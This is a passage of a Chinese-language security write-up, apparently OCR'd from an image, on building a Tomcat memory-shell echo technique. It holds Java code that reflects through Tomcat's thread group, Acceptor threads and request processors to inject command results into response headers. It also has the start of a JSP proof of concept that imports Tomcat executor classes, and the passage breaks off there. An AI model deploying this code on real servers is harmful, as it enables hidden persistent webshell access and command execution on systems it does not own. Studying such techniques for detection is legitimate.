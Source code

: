 `AbstractProcessor`在初始化时就会进行Tomcat Request与Response的创建，继承了`AbstractProcessor`的`Http11Processor`也是

可以通过上面这些方法把数据回显，选择addHeader来存放返回结果

（response结构体中的buffer不好扩容，后面可能出现问题）

```java
public void getResponse(String res) {
    try {
        Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

        for (Thread thread : threads) {
            if (thread != null) {
                String threadName = thread.getName();
                if (threadName.contains("Acceptor")) {
                    Object target = getField(thread, "target");
                    if (target instanceof Runnable) {
                        try {
                            ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                            for (Object tmp_object : objects) {
                                RequestInfo request = (RequestInfo) tmp_object;
                                Response response = (Response) getField(getField(request, "req"), "response");
                                response.addHeader("Result", res);

                            }
                        } catch (Exception var11) {
                            continue;
                        }

                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```

# 0x03 POC

```jsp
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
```